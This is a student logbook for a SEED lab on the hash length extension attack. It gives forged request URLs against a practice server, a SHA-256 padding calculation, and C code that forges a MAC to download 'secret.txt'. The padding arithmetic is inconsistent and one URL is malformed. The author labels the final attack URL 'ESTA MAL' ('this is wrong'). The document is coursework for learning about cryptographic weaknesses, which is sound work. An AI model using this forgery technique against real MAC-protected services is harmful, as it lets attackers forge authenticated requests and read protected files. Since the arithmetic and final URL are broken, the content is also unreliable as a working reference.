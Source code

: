 ## Hash Length Extension

#### Task 1: Send Request to List Files

First we picked a uid number from the ```key.txt```file: **1001:123456**.

We built the message: 
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```

To calculate the MAC, we ran the command:
```
$ echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1" | sha256sum
```
The result was **1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e  -**.

Then, we built the request and sent it using the browser: 
```
http://www.seedlab-hashlen.com/?myname=MariaVieira&uid=1001&lstcmd=1mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e
```
This didn´t work, so we tried to use 10.9.0.80 in the url:
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e&subid1=20241206-1030-1288-97a0-15adcfd528ba
```
This time, it worked, showing the files successfully:


![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_2.png)


Then, we did the download request:
- We had to calculate the MAC again with 
```echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt" | sha256sum```
- Sent the updated url: 
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt&mac=289e9016b7caf160b0b116505c9452ac870b83598d95df94c221c47393d264d5
```

The request was successful, showing the files in LabHome and the content of ```secret.txt```!

![Image 2](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_3.png)

#### Task 2: Create Padding

We already have the message from Task1:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```
The length of the message is 43
bytes, so the padding is 64 - 43 = 21 bytes, including 8 bytes of the length field. 

The length of the message in
term of bits is 43 * 8 = 176 = 0x158. 

SHA256 will be performed in the following padded message:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
\x80
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x01\x58
```
Because of the 21 bytes of padding, we added ```\x00```21 times before the length field.

Converting to URL enconding, we obtained:
```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
```


#### Task 3

We changed the file according to our attack:
```
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
  int i;
  unsigned char buffer[SHA256_DIGEST_LENGTH];
  SHA256_CTX c;
  
  SHA256_Init(&c);
  
  for(i=0; i<64; i++)
    SHA256_Update(&c, "*", 1);
    
  // MAC of the original message M (padded)
  c.h[0] = htole32(0x1b7ae954);
  c.h[1] = htole32(0xe7654d0d);
  c.h[2] = htole32(0xf10f49c0);
  c.h[3] = htole32(0x01b146bc);
  c.h[4] = htole32(0xc0034135);
  c.h[5] = htole32(0x5349f58f);
  c.h[6] = htole32(0xd7ce0b0e);
  c.h[7] = htole32(0x79e1d06e);
  
  // Append additional message
  SHA256_Update(&c, "&download=secret.txt", 20);
  SHA256_Final(buffer, &c);
  
  for(i = 0; i < 32; i++) {
    printf("%02x", buffer[i]);
  }
  printf("\n");
  return 0;
}
```

Then we ran the code, obtaining the new MAC for the extended request:

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK10.png)

Finally, we could build the url to the attack:

- Request from task1
- PADDING from task2: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
- MAC from task3: 301f72317f48d9351690d119d77a527b1b236fc6f7992653c91e9014e1f6279d

ESTA MAL

http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58&download=secret.txt&mac=301f72317f48d9351690d119d77a527b1b236fc6f7992653c91e9014e1f6279d



